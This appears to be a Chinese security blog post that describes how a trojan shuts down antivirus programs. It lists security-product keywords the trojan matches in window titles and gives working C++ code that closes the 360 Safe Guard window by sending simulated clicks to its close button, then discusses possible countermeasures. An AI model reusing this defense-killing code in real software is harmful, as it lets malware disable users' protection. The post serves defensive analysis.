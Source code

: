 ﻿---
layout:		post
category:	"sec"
title:		"木马关闭360的方法及其对策"
tags:		[mfc,c++]
---
- Content
{:toc}

目前有一种木马，通过遍历桌面窗口并使用GetWindowTextA获取窗口的标题，如果标题中含有以下敏感词语：

杀毒，清理，SREng，worm，卡巴斯基，超级巡警，江民，金山，anti，virus，Firewall，检测，Mcafee，病毒，防火墙，主动防御，微点，防御，绿鹰，木马，瑞星，进程，Process，NOD32,专杀，安全卫士。

则调用PostMessageA发送结束消息关闭对应的窗口，这样安全软件运行不超过一秒就被关闭了，有的杀毒软件启动时可能需要一段时间的初始化，甚至界面还没显示完全就被关闭了。这种关闭方式貌似很合法很合理，可以做到模拟用于点击关闭按钮的效果，因此杀软在对付这一招时可能有些为难了。

如下是一个测试例程，用于关闭360安全卫士的主窗口，不过与上述方法不同的是，这里是找到最右上角的关闭按钮，然后给它发送按键消息。

```cpp
// Close360Form.cpp : To Colse The 360safe Form
//

#include "stdafx.h"
#include "windows.h"


int main(int argc, char* argv[])
{
HWND hWnd;
HWND hBtn;
// RECT rect;
// POINT oldPos,newPos;

hWnd = FindWindow("Q360SafeMainClass","360安全卫士");
if (hWnd == 0)
{
   MessageBox(0,"Can't Find The Target:360安全卫士",NULL,0);
   return 0;
}
/*
if( !GetWindowRect(hWnd,&rect) )
   MessageBox(0,"Fail to Get The Window Rect.",NULL,0);

newPos.x = rect.right - 14;
newPos.y = rect.top + 9;
GetCursorPos(&oldPos); //save the old cursor position
BringWindowToTop(hWnd); 
SetCursorPos(newPos.x,newPos.y);
//click the colse button...
mouse_event(MOUSEEVENTF_LEFTDOWN, 0, 0, 0, 0); //模拟鼠标左键down
    mouse_event(MOUSEEVENTF_LEFTUP, 0, 0, 0, 0); //模拟鼠标左键up
//try again...
mouse_event(MOUSEEVENTF_LEFTDOWN, 0, 0, 0, 0); //模拟鼠标左键down
    mouse_event(MOUSEEVENTF_LEFTUP, 0, 0, 0, 0); //模拟鼠标左键up

SetCursorPos(oldPos.x,oldPos.y);
*/
hBtn = GetDlgItem(hWnd,0x3E8);
if (hBtn == 0)
{
   MessageBox(0,"Can't Find The CloseButton",NULL,0);
   return 0;
}
SendMessage(hBtn,WM_LBUTTONDOWN,0,0);
SendMessage(hBtn,WM_LBUTTONUP,0,0);

return 0;
}
```

对于上述关闭杀软的手段，我们有什么办法呢？我想杀软内部应该判断一下如果是结束消息则鼠标位置是不是在关闭按钮区域内部.如果是的话则说明是用户点击的可能性会比较大，如果鼠标不在关闭按钮区域内部则说明是通过发送消息直接关闭的可能性就比较大了，这时杀软可以拒绝关闭或作相应的安全措施。

但是问题又来了，如果使用上述代码中注释掉的部分完成关闭360safe的功能，又将怎样对付呢？这可是完全模拟了用户操作啊。